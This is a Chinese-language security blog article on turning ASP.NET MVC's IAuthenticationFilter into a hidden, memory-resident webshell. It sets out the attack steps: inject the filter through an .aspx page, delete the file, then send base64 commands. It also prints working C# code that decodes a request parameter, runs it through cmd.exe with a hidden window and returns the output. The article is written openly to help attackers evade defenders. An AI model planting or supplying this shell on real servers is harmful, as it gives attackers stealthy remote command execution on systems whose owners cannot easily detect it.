 0x01 背景
=======

**IAuthenticationFilter**认证过滤器是MVC5的新特性，它在其他所有过滤器之前运行，我们可以在认证过滤器中创建一个我们定义的认证方法，也可以结合授权过滤器做一个复杂的认证方法，例如通常实现针对http Basic请求认证，从请求的Authorization报头中提取安全凭证，并按照Basic凭证的格式解析出用户名和密码。只有在用户名和密码匹配的情况下，我们认为请求通过认证，如果账密不匹配的情况下客户端会接收到401状态及响应。攻击者利用此过滤器可以在任意请求前实现一个隐蔽的虚拟Webshell，对于防守方此内存级别的Shell将变得难以排查，具体如何实现的原理及攻击方法请看本文完整的实现

0x02 效果
=======

大致可以分为三步，后续文章里笔者还会继续简化和高效利用，目前先运行第1步访问 /dotnetofAuthenticationFilter.aspx 将虚拟文件注入到内存，并删除此文件；第2步打开新的浏览器标签页访问默认主页 /?cmd=tasklist也可以正常触发，记得tasklist需base编码。成功结果如下图

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-349c2ca97708f290f616472979b37611f82b02ff.png)

0x03 IAuthenticationFilter接口
============================

很多情况下目标Action方法都要求在一个安全上下文中被执行，这里所谓的安全上下文主要指的是当前请求者是一个经过授权的用户。授权的本质就是让用户在他许可的权限范围内做他能够做的事情，授权的前提是请求者是一个经过认证的用户。.NET MVC 3.0之后提供身份认证过滤器AuthenticationFilter处理上述业务场景，该过滤器是HTTP请求处理的第一个阶段，所以也是最先被执行的过滤器。采用的是\[ 质询（Chanllenge） -&gt; 应答（Response） \]形式，认证方向被认证方发出质询以要求其提供用于实施认证的用户凭证，而被认证方提供相应的凭证以作为对质询的应答。所有的AuthenticationFilter类型均实现了IAuthenticationFilter接口，该接口定义在命名空间 System.Web.Mvc.Filter 下，其余的几种过滤器接口也都定义在这里，该接口定义了两个核心方法，如下代码片段，OnAuthentication方法用于对请求实施认证，OnAuthenticationChallenge方法则负责将相应的认证质询发送给请求者。

```php
namespace System.Web.Mvc.Filters
{
  /// <summary>Defines a filter that performs authentication.</summary>
  public interface IAuthenticationFilter
  {
    /// <summary>Authenticates the request.</summary>
    /// <param name="filterContext">The context to use for authentication.</param>
    void OnAuthentication(AuthenticationContext filterContext);

    /// <summary>Adds an authentication challenge to the current <see cref="T:System.Web.Mvc.ActionResult" />.</summary>
    /// <param name="filterContext">The context to use for the authentication challenge.</param>
    void OnAuthenticationChallenge(AuthenticationChallengeContext filterContext);
  }
}
```

3.1 OnAuthentication方法
----------------------

定义在IAuthenticationFilter接口的两个方法都将请求的上下文对象filterContext作为其唯一传递参数，不同地方在于OnAuthentication方法的这个参数类型为AuthenticationContext，它是ControllerContext的子类。所有的属性如下

| 名称 | 类型 | 说明 |
|---|---|---|
| ActionDescriptor | ActionDescriptor | 获取或设置操作描述符。 |
| Principal | IPrincipal | 获取或设置当前已进行身份验证的主体。 |
| Result | ActionResult | 获取或设置由操作方法返回的结果。 |

AuthenticationContext的ActionDescriptor返回的自然是用于描述目标Action方法的ActionDescriptor对象。借助于Principal属性，我们可以获取或设置代表当前用户的Principal对象。如果我们在执行OnAuthentication方法的过程中设置了AuthenticationContext的Result属性，提供的ActionResult将直接用于响应当前身份验证失败的错误请求。代码片段如下图

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-85aba5b33c37a85fe98597b517bcc6f2c33923e4.png)

3.2 OnAuthenticationChallenge方法
-------------------------------

OnAuthenticationChallenge方法的参数类型为AuthenticationChallengeContext，依然是一个ControllerContext的子类。同样具有一个用于描述目标Action方法的ActionDescriptor属性，其Result属性代表的ActionResult对象将用于响应返回正常状态码的请求，所有的属性如下表，核心的代码片段如下图

| 名称 | 类型 | 说明 |
|---|---|---|
| ActionDescriptor | ActionDescriptor | 获取或设置操作描述符。 |
| Result | ActionResult | 获取或设置由操作方法返回的结果。 |

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-531250757ed26ccc865e9644ff3246d0dff8be4a.png)

0x04 实现Webshell
===============

下面笔者将改写OnAuthentication方法，首先我们在站点文件夹下添加一个名为 dotnetofAuthenticationFilter.aspx 的过滤器文件，创建MyAuthenticationFilter类继承 *IAuthenticationFilter* 接口，OnAuthentication方法内获取外部传入的base64数据，得到request对象后解码，另外为了具备命令执行后回显，使用StandardOutput.ReadToEnd读取命令执行后的所有返回数据，代码片段如下

```php
public void OnAuthentication(AuthenticationContext filterContext)
        {
            if (!string.IsNullOrEmpty(System.Web.HttpContext.Current.Request["content"]))
            {
                String content = System.Text.Encoding.GetEncoding("utf-8").GetString(Convert.FromBase64String(System.Web.HttpContext.Current.Request["content"]));
                if (content != null)
                {
                    Process p = new Process();
                    p.StartInfo.FileName = "cmd.exe";
                    p.StartInfo.Arguments = "/c " + content;
                    p.StartInfo.UseShellExecute = false;
                    p.StartInfo.RedirectStandardOutput = true;
                    p.StartInfo.RedirectStandardError = true;
                    p.StartInfo.WindowStyle = ProcessWindowStyle.Hidden;
                    p.Start();
                    byte[] data = Encoding.Default.GetBytes(p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd());
                    System.Web.HttpContext.Current.Response.Write("" + Encoding.Default.GetString(data) + "");
                }
            }
        }
```

0x05 结语
=======

.NET MVC下还有很多这样的过滤器可以被用来实现虚拟Webshell，如果对这些技巧感兴趣的话可以多关注我们的[博客](https://www.cnblogs.com/Ivan1ee/)、[公众号dotNet安全矩阵](https://mp.weixin.qq.com/s/VIsJlDmWGD0QcgBDDsRP9g)以及[星球](https://t.zsxq.com/04yFmii2b)，下一篇将继续分享 .NET相关的安全知识，请大伙继续关注。另外文章涉及的PDF和Demo以及工具已打包发布在星球，欢迎对.NET安全关注和关心的同学加入我们，在这里能遇到有情有义的小伙伴，大家聚在一起做一件有意义的事。